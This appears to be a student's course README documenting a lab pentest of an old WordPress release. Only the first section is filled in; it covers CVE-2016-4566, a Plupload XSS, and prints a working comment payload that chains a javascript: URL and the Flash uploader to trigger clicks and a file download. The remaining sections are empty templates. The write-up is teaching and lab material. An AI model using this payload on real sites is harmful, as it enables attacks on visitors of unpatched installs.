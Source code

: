 # Project 7 - WordPress Pentesting

> Time spent: 5+ hours spent in total

> Objective: Find, analyze, recreate, and document **three to five vulnerabilities** affecting an old version of WordPress

## Test Environment

Created virtual environment in Docker.
  - [ ] GIF Walkthrough: 
		<img src="docker-wpVSkali.gif" alt="docker-wpVSkali Walkthrough">
		
## Pentesting Report

### 1. WordPress <= 4.5.1 - Pupload Same Origin Method Execution (SOME) - CVE-2016-4566
  - [ ] Summary: 
    - Vulnerability types: Cross-Site Scripting (XSS)
    - Tested in version: 4.1
    - Fixed in version: 4.1.11 
  - [ ] GIF Walkthrough: 
		<img src="SOMExss.gif" alt="CVE-2016-4566 Walkthrough">
		
  - [ ] Steps to recreate: 
  
	1. As a logged in user, leaving a reply/comment to a post using the payload:
			
	2.	
			```
			<button onclick="fire()">Click</button>
			<script>
			function fire() {
			open('javascript:setTimeout("location=\'http://example.com/wp-includes/js/plupload/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');
			setTimeout('location="http://example.com/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
				}
			</script>	
			```
			
			
	3. After this comment posts sucessfully, any user that comes across the post will see a clickable button for the comment. If that user clicks the button, the XSS attack will execute and attempt to download a malicious payload from the attack. 
			
			
	4. In the gif walkthrough, my browser extentions sucessfully blocks the attack from downloading the file, but a user without the proper safeguards would be prompted to download a file. 
			
  - [ ] References:
    - [Link 1: wpscan](https://wpscan.com/vulnerability/a82a6c6f-1787-4adc-84dd-3151f1edfd06)
	- [Link 2: cve.mitre](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-4566)
	- [Link 3: wordpress.org](https://wordpress.org/news/2016/05/wordpress-4-5-2/)
	- [Link 4: github/wordpress](https://github.com/WordPress/WordPress/commit/c33e975f46a18f5ad611cf7e7c24398948cecef8)
	- [Link 5: gist.github](https://gist.github.com/cure53/09a81530a44f6b8173f545accc9ed07e)
### 2. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)
- [wpVSkali](https://github.com/0xrutvij/wpVSkali)


GIFs created with [ScreenToGif](https://www.screentogif.com).

## Notes

- Other notes:

## License

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
